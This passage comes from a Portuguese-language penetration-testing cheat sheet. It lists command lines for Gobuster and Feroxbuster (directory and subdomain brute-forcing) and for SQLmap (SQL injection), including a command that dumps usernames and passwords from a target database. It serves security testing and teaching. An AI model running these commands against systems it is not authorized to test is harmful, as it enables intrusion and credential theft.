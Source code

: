 
## 📌 3. Gobuster
- **Finalidade:** Ferramenta rápida para **força bruta de diretórios e subdomínios** em servidores web.
- **Comandos de execução:**
  ```bash
  gobuster dir -u http://<URL_ALVO> -w /usr/share/wordlists/dirb/common.txt
  ```
  - Para procurar subdomínios:
    ```bash
    gobuster dns -d <DOMINIO_ALVO> -w /usr/share/wordlists/dns/subdomains-top1million-5000.txt
    ```
  - Para enumerar ficheiros PHP:
    ```bash
    gobuster dir -u http://<URL_ALVO> -w /usr/share/wordlists/dirb/common.txt -x php
    ```

---

## 📌 4. Feroxbuster
- **Finalidade:** Alternativa ao **Gobuster**, com **multi-threading** e requisições **HTTP recursivas**.
- **Comandos de execução:**
  ```bash
  feroxbuster -u http://<URL_ALVO> -w /usr/share/wordlists/dirb/common.txt
  ```
  - Para definir número de threads:
    ```bash
    feroxbuster -u http://<URL_ALVO> -t 50 -w /usr/share/wordlists/dirb/common.txt
    ```
  - Para ignorar códigos HTTP específicos:
    ```bash
    feroxbuster -u http://<URL_ALVO> -w /usr/share/wordlists/dirb/common.txt -C 403,500
    ```

---

## 📌 5. SQLmap
- **Finalidade:** Testa e explora **injeções SQL** em aplicações web.
- **Comandos de execução:**
  ```bash
  sqlmap -u "http://target.com/page.php?id=1" --dbs
  ```
  - Para listar tabelas de uma base de dados específica:
    ```bash
    sqlmap -u "http://target.com/page.php?id=1" -D <NOME_DA_DB> --tables
    ```
  - Para extrair credenciais de login:
    ```bash
    sqlmap -u "http://target.com/login.php" --dump -C username,password -T users -D target_db
    ```

---